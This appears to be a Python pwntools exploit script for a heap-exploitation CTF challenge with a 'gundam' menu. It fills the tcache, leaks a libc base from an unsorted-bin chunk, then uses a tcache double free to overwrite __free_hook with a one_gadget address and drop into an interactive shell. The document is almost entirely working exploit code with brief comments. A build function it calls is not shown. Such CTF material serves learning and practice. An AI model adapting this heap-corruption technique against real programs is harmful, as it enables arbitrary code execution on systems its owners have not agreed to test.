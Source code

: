 ```python
def visit():
    io.sendafter(': ','2')

def delgundam(idx):
    io.sendlineafter(': ','3')
    io.sendlineafter(':',str(idx))

def delall():
    io.sendafter(': ','4')

for x in range(9):
    build('aaa')
for x in range(9):
    delgundam(x) #fill tcache and summon unsorted bin

delall()


for x in range(7): #use tcache

    build('bbb')
build('AAAAAAA') #splited from unsorted bin so it have fd bk


visit()
offset = 0x3ebca0
io.recvuntil('AAAAAAA\n')
libcbase = u64(io.recv(6).ljust(8,'\x00')) - offset
success('libcbase : '+hex(libcbase))
onegadget = libcbase +0x4f322
mallochook = libcbase + 0x3ebc30
freehook = libcbase + 0x3ed8e8

#delgundam(2)

#delgundam(3)
#delgundam(3)

for x in range(9): #clear all

    delgundam(x)
delall()


build('0') #0
build('1') #1



delgundam(1) #tcache dup

delgundam(1)
build(p64(freehook))
build('a')
build(p64(onegadget))

delall()
io.interactive()
#debug()
```

